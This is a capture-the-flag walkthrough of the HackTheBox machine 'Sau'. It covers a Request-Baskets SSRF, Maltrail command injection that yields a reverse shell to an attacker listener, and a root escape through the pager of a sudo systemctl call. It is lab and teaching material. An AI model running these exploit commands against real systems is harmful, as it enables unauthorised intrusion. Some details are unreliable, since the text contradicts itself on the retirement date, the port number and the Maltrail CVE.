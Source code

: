```yaml
---
title: "Sau (HackTheBox | Easy | Retired 15 Apr 2022)"
author: "Mohamed Trigui"
date: "`r format(Sys.Date())`"
output:
  github_document:
    toc: true
---
```


<span style="color:#d9534f;"><strong>Path To Root</strong></span>: SSRF → internal panel access → unauthenticated command injection → user shell → sudo misconfiguration → root.

---

## <span style="color:#4b0082;"><strong>Synopsis</strong></span>
Sau is an easy-level HTB box that runs a Request-Baskets instance vulnerable to SSRF (CVE-2023-27163). It gave me a solid, hands-on understanding of Server-Side Request Forgery (SSRF). By abusing that flaw I was able to a filtere Maltrail panel that is vulnerable to unauthenticated OS-command injection. One payload later, I landed a reverse shell as the user `puma`. From there a sloppy `sudo` configuration handed me root.

### Skills Required
- Web Enumeration
- Linux Fundamentals

### Skills Learned
- Command Injection
- Server Side Request Forgery
- Sudo Exploitation

---

## <span style="color:#4b0082;"><strong>Enumeration</strong></span>

### 1. Nmap

```bash
nmap -sV 10.10.11.224
```

![Nmap result](img/step01_nmap.png)

The nmap scan reveals that `OpenSSH` is running on the default `SSH` port (22). Port 80 appears to be filtered, likely due to a firewall rule restricting inbound `HTTP` traffic. Additionally, an HTTP service is accessible on port 5555, which indicates a non-standard web service might be running there.

### 2. Request‑Baskets SSRF to Maltrail
Since port `80` is filtered, I started exploring port `55555`, which revealed a `Request Baskets` instance running. `Request Baskets` is a web service that collects HTTP requests via a RESTful API.

I noticed the version was `1.2.1`, and after a quick Google search, I found that this version is vulnerable to `CVE-2023-27163`: a Server-Side Request Forgery (SSRF) via the `/api/baskets/{name}` component, which allows attackers to make internal requests to services that should be unreachable.  
![SSRF](img/step02_ssrf.png)

I immediately thought of targeting the filtered HTTP port `80` by forcing the application to make a request to it. I searched for some PoC scripts and found one that sets up a proxy basket to relay requests to an internal service.

To exploit it, I used the following command to trigger a request to the internal web service running on port `80`:

```bash
bash ./exploit-basket.sh http://10.10.11.224:55555/ http://127.0.0.1:80
```
![Exploit Basket](img/step025_exploit-basket.png)

Following the exploit, I was able to access the crafted URL, which successfully forwarded the request to the internal port `80`. This revealed a `Maltrail` instance running on version `0.53`, which is vulnnerable to Unauthenticated Remote Code Execution (RCE) (CVE-2023–27163).

![Maltrail](img/step03_maltrail.png)
---

## <span style="color:#4b0082;"><strong>Foothold</strong></span>

I searched for a proof-of-concept exploit and found a script that constructs a `curl` command to send a payload to the target URL through the login endpoint, which opens a shell on the victim machine.

I set up a `netcat` listener on port `4444` on my machine (attacker machine), and ran the script with:

```bash
python3 exploit-maltrail.py 10.10.14.9 4444 http://10.10.11.224:55555/qmhvxq
```

I obtained a shell on the target and was able to get the `user` flag.

![Reverse shell](img/step04_shell.png)

---

## <span style="color:#4b0082;"><strong>Privilege Escalation</strong></span>

The first thing I checked for privilege escalation was `sudo` permissions for the user `puma`. I discovered that this user can run `/usr/bin/systemctl status trail.service` with `sudo` and no password.  
![sudo list](img/step05_sudo.png)

I knew that `systemctl status` pipes output through `less` by default when the output is long. Since we're running the command with `sudo`, it opens `less` as root, which can be exploited. 

One trick with `less` is that you can escape to a shell by typing `!`. So I entered `!` and got a root shell.  
![root shell](img/step06_root.png)
---

## <span style="color:#4b0082;"><strong>Exploitation Scripts</strong></span>

| Script                       | Author            | Source                                                                                            |
| ---------------------------- | ----------------- | ------------------------------------------------------------------------------------------------- |
| `exploit-basket.sh`          | Iyaad Luqman K    | [Request-Baskets 1.2.1](https://vulners.com/packetstorm/PACKETSTORM:174128)                       |
| `exploit-maltrail.py`        | spookler (Github) | [Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py) |

---

## <span style="color:#4b0082;"><strong>References</strong></span>

- [CVE-2023-27163 – Request-Baskets SSRF](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)
- [Maltrail 0.53 – Unauthenticated RCE (ExploitDB ID: 51676)](https://vulners.com/exploitdb/EDB-ID:51676)

